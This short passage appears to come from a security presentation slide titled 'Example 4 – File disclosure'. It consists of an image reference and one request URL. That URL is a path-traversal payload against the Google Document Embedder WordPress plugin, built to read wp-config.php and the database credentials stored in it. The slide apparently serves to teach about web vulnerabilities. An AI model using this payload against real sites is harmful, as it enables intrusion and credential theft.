

# Example 4 – File disclosure
/wordpress/wp-content/plugins/google-document-embedder/libs/pdf.php?fn=lol.pdf&file=../../../../wp-config.php